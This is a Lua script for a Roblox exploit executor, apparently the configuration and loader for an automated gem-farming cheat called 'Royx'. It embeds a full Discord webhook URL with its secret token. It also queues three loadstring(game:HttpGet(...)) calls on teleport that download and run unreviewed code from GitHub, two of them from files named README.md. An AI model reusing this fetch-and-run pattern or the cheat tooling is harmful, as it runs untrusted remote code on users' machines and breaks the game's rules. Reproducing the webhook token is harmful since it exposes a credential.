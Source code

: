 _G.RoyxSpecialMode = "Hell Factory";
_G["External Config"] = {
    ["Kai Gems"] = true, -- true / false
    ["Kai Story"] = false, -- true / false
    ["Kai Battle Pass"] = false, -- true / false
    ["Kai Infinity Castle"] = false, -- true / false
    ["Auto Set Resource"] = true, -- true / false
    ["Select End Game Mode"] = "Auto Sell", -- "Instant Leave" / "Auto Sell"
    ["End Wave"] = 25, -- number
    ["Maximum Added Gems"] = 60000, -- number
    ["Close Roblox When Maximum Added Gems"] = false, -- true / false
    ["Using Limit Farming"] = false, -- true / false
    ["Stop Farming When The Limit Is Reached"] = false, -- true / false
    ["Send Webhook When The Limit Is Reached"] = false, -- true / false
    ["Webhook Url"] = "https://discord.com/api/webhooks/1062029970853068890/gR7P-6bMcFMM8i4xlLUW6W1hUE7fZi_lY0-KEzwsS52OBBrvXDLGFC2tQJXSnEhArR94", -- string
    ["RAM Port"] = "7963", -- string
    ["RAM Password"] = "", -- string
    ["RAM Private Server Url"] = "", -- string
    ["RAM Auto Description"] = true, -- true / false
    ["RAM Auto Private Server"] = false, -- true / false
    ["RAM Auto Exit"] = false, -- true / false
    ["Fps Limit"] = 15, -- number
    ["Lock Fps"] = true, -- true / false
    ["Release Fps When Rejoin"] = false, -- true / false
    ["Select Unit"] = {"Slot 1", "Slot 2", "Slot 3"}, -- table  {"Slot 1", "Slot 2", "Slot 3", "Slot 4", "Slot 5", "Slot 6"}
};
local Key = _G.Key
local DiscordId = _G.DiscordId

queue_on_teleport(string.format([[
    _G.Key = "%s"
    _G.DiscordId = "%s"
    loadstring(game:HttpGet("https://raw.githubusercontent.com/toohot123/robloxconfig/main/README.md"))()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/Natsuhanaki/Royx_PC/main/loader.lua"))()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/toohot123/Roblox1/main/README.md"))()
]], Key, DiscordId))

-- loadstring(game:HttpGet("https://raw.githubusercontent.com/Natsuhanaki/Royx_PC/main/loader.lua"))()

print("Executed!");

